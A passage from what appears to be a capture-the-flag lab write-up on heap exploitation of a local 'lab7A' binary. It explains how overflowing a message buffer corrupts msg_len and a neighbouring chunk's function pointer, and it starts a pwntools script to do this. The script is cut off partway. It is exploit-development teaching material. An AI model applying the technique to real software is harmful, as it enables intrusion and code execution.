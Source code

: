 ```
![writeup1](https://user-images.githubusercontent.com/45107680/95108404-ed472c80-0743-11eb-832f-888a61958c71.png)

The marked areas are related to the first chunk, ```malloc``` has returned ```0x8a309d0```.

Yellow - ```print_msg``` function pointer 

Green - ```xorpad``` array

Light blue - OTP-encrypted ```message``` array

Red - ```msg_len```

Unmarked remained memory afterwards is the second chunk layout.

As you can see, the initial ```msg_len``` value 0x81 (129 in decimal) was successfully overwritten with 0x42, which demonstrates the ability to corrupt ```msg_len``` struct member. Now, let's see if I can control the instruction pointer. The offset from ```message``` to the next chunk function pointer is 128 (```message``` buffer size) + 4 (```msg_len```) + 8 (chunk metadata header) = 140 bytes. So let's corrupt the ```msg_len``` with 0x90 (144 in decimal). I'll send 140 garbage bytes + ```0xdeadbeef``` which will accurately overwrite the next chunk function pointer. Let's alter the script accordingly:

```
from pwn import *

io = process("./lab7A")
gdb.attach(io, '''
b *create_message + 127
b *print_index + 158
c
''')

def allocate_chunk(payload, len):
    io.recvuntil(b'Choice: ')
    io.sendline(b'1')
    io.recvuntil(b'length: ')
    io.sendline(str(len).encode()) 
    io.recvuntil(b'encrypt: ')
    io.sendline(payload) 

def print_chunk(idx):
    io.recvuntil(b'Choice: ')
    io.sendline(b'4')
    io.recvuntil(b'print: ')
    io.sendline(str(idx).encode())

def edit_chunk(new_msg, idx):
    io.recvuntil(b'Choice: ')
    io.sendline(b'2')
    io.recvuntil(b'edit: ')
    io.sendline(str(idx).encode())
    io.recvuntil(b'encrypt: ')
    io.sendline(new_msg)
